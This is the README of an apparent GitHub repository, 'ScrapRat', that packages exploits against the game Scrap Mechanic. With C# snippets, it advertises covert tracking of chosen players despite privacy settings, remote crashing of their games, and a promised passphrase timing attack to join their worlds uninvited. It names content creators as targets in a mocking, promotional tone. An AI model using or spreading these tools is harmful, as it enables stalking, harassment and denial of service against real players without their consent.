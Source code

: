 # Welcome to the ScrapRat repo!
### What is this??
This is a collection of software, code snippets, sample cli's, and demonstrations outlining different impactful CWE's that are currently available to exploit in [Scrap Mechanic](https://www.scrapmechanic.com/) as of 3/21/2024.
As some of you may know, Scrap Mechanic is a wonderful game with plentiful updates and it should come as no surprise as to why these CWE critical vulnerabilities exist in the game and why they will likely continue to exist for the foreseeable future.

Some of the things the CWE's allow for include `cyber stalking`, `remote game crashing`, and `unauthorized world entry`.

Thats right! Have you ever wanted to know when exactly your favorite content creators are playing Scrap Mechanic?
Well now you can forcefully track their Scrap Mechanic activity without their knowledge even if their steam profile is on maximum privacy and they are always 'offline'.

Why stop there? Maybe you get sick and tired of the Scrap Mechanic content..?
Well have I got some new for you! With just a few clicks, their game wont last half a second before crashing! This means no more of that oh so stinky Scrap Mechanic content.

Now, if thats not your cup of tea I've got one last option for you (my personal favorite). In just (on average) 15 minutes, you will have cracked the code and you will be able to join ANY of your favorite content creators when you use the previous cyber stalking tool to find out when they are playing the game. Now you can play with your favorite content creators!

#
Now, back to business...

This repository implements the follow CWE's:

- [x] [CWE-306](https://cwe.mitre.org/data/definitions/306.html) under [Player-GetConnection#L74-L76](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Player/Player.cs#L74-L76)
```csharp
internal HSteamNetConnection GetConnection() =>
this.hSteamNetConnection ??= (HSteamNetConnection)this.Interupt.RunCancelable(() => 
SteamNetworkingSockets.ConnectP2P
    (ref this.NetworkingIdentity, 0, LongTimeoutOptions.Length, LongTimeoutOptions));
```
With additional parameters under [LongTimeoutOptions#L137-L150](https://github.com/TheGuy920/Crashbot/blob/main/ScrapRat/Player/Player.cs#L137-L150)
```csharp
private static readonly SteamNetworkingConfigValue_t[] LongTimeoutOptions = [
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutConnected,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = 500 }
    },
    new SteamNetworkingConfigValue_t
    {
        m_eDataType = ESteamNetworkingConfigDataType.k_ESteamNetworkingConfig_Int32,
        m_eValue = ESteamNetworkingConfigValue.k_ESteamNetworkingConfig_TimeoutInitial,
        m_val = new SteamNetworkingConfigValue_t.OptionValue { m_int32 = int.MaxValue }
    }
];
```
- [x] [CWE-476](https://cwe.mitre.org/data/definitions/476.html) under [Blacklist#L143](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Blacklist/MechanicNoMore.cs#L143)
```csharp
SteamNetworkingSockets.SendMessageToConnection(connection, 0, 0, 0, out long _);
```
- [ ] [CWE-208](https://cwe.mitre.org/data/definitions/208.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)

- [ ] [CWE-307](https://cwe.mitre.org/data/definitions/307.html) Comming Soon :tm: under [SkeletonKey](https://commingsoon)


# Projects
The CWE's above have been implemented in a few different and easy to use solutions. 
* [Blacklist](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L58)
* [Spy Tool](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L28)
* [Passphrase Timing Attack](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRat/Game.cs#L88)

### ScrapRatCli [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample cli has been created demonstrating how to use the Blacklisting feature
```csharp
foreach (ulong sid in steamids)
    Game.Blacklist.Add(sid, true);
```

### ScrapRatWebApi [-->](https://github.com/TheGuy920/ScrapRat/blob/main/ScrapRatCli/Program.cs#L88)
A sample WebApi has been created showcasing the cyber stalking capabilities
```csharp
foreach (var steamid in PeopleToTrack)
{
    MagnifiedMechanic mech = Game.BigBrother.SpyOnMechanic(steamid);
    mechanic.PlayerLoaded += _ =>
        Console.WriteLine($"[{DateTime.Now}] Player '{mech.Name}' ({mech.SteamID}) is loaded.");
    mechanic.OnUpdate += evnt =>
        Console.WriteLine($"[{DateTime.Now}] Player '{mech.Name}' ({mech.SteamID}) is {evnt}");
}
```
